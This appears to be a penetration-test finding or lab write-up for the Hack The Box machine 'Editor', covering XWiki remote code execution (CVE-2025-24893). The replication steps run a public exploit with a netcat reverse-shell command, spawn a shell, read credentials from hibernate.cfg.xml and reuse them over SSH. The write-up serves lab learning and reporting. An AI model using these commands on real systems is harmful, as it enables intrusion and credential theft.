

CVE-2025-24893 - Remote Code Execution

## Description

A vulnerability in Editor.htb allows unauthenticated remote code execution (RCE). An unauthenticated attacker can execute code on the server remotely, potentially gaining control of the affected application host.

## Impact

High — Successful exploitation can lead to full compromise of the application and access to sensitive data on the host. This violates the confidentiality, integrity, and availability (CIA) of affected systems and may allow attacker persistence, data exfiltration, or further lateral movement.

## Likelihood

High — Exploitation requires no authentication and can be performed remotely, increasing the probability of active exploitation.

## Remediation 
Upgrade XWiki to 15.10.11, 16.4.1, or any later release from the vendor. This is the official fix for CVE-2025-24893.

## Evidence 
### Replication steps 

 

 From the login page a version is clearly displayed. Research shows vulnerablity for that version https://nvd.nist.gov/vuln/detail/CVE-2025-24893. Google CVE-2025-24893 pOc and github is found. 

 1. Download CVE-2025-24893.py
 2. start listening nc -lvnp port
 3. execute `python3 CVE-2025-24893.py -t 'http://editor.htb:8080' -c 'busybox nc ip 9001 -e /bin/bashw`
 4. nc terminal will start rce 
 5. spawn shell - `python3 -c 'import pty; pty.spawn("/bin/bash")'`
 6. enumerate files on webserver will discover user oliver 
 

 7. Google files on server and find hibernate.cfg.xml which stores XWiki data 
 8. find and open hibernate.cfg.xml
 9. Will see passwords used to login
10. ssh as oliver with password and one will be successful  `ssh oliver@IP`

